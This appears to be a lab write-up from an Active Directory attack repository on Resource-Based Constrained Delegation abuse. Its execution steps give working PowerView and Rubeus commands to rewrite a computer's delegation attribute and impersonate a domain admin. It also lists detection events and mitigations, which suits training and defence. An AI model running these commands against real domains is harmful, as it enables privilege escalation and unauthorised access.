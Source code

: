 # Attack Scenario: Resource-Based Constrained Delegation (RBCD) Abuse
This scenario demonstrates abuse of Resource-Based Constrained Delegation, where an attacker controlling a machine account configures another machine to trust it for delegation. This enables impersonation of any domain user (including privileged ones) when accessing services on that resource.

## MITRE ATT&CK Techniques:
- T1550.002 – Pass-the-Ticket
- T1134.001 – Token Impersonation/Theft

##  Lab Environment
- **Controlled machine account:** WS01$
- **Target system:** APP01.internal.lab
- **Domain Controller:** dc01.internal.lab
- **Privileged user:** admin.internal.lab

Preconditions:

- Attacker has rights to modify the msDS-AllowedToActOnBehalfOfOtherIdentity attribute on APP01
- Kerberos Constrained Delegation is configured on the domain

## Objectives
- Configure RBCD to allow WS01$ to impersonate any user on APP01
- Impersonate a high-privilege user (e.g., Domain Admin)
- Access resources on the target machine as that user

## Execution Steps
### 1. Confirm You Control a Machine Account
Use PowerView:

```Get-DomainComputer -Identity WS01```

You should have the ability to modify other objects (GenericWrite, GenericAll, or WriteProperty).

### 2. Configure RBCD on the Target
Use Set-ADComputer (requires ActiveDirectory module or PowerView):

```
$SID = Get-DomainComputer WS01 | Select -ExpandProperty objectsid
$SD = New-Object Security.AccessControl.CommonSecurityDescriptor $false, $false, 'D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;' + $SID.Value + ')'
Set-DomainObject -Identity APP01 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SD.GetSddlForm('All')}
```

### 3. Trigger Delegation Using s4u2proxy
Use Rubeus (attacker-side):

```Rubeus.exe s4u /user:WS01$ /rc4:<hash> /impersonateuser:admin /msdsspn:cifs/APP01.internal.lab /ptt```
### 4. Confirm Access
Try:

```dir \\APP01\C$ or Enter-PSSession using injected ticket```

## Detection Guidance
### Defender for Identity:
- Unusual delegation configurations
- "Suspicious Kerberos delegation usage"

### Logs:
- 4742: Computer object modified (RBCD attribute)
- 4769: TGS requests for high-privileged users using delegation
- 4624: Logon events to APP01 from an unusual machine account

## Mitigations
- Monitor and restrict GenericAll / WriteProperty permissions on computer objects
- Alert on changes to msDS-AllowedToActOnBehalfOfOtherIdentity
- Use gMSAs and tiered admin access to reduce risk
- Limit account permissions with Least Privilege principles

## References
- https://dirkjanm.io/abusing-active-directory-acls-weaponizing-ldap/
- https://github.com/GhostPack/Rubeus
- https://adsecurity.org/?p=4056
- https://attack.mitre.org/techniques/T1550/002/

## Navigation
← [Back to Lab Index](../../README.md)
→ [Related: Unconstrained Delegation Abuse](./unconstraied-delegation.md)
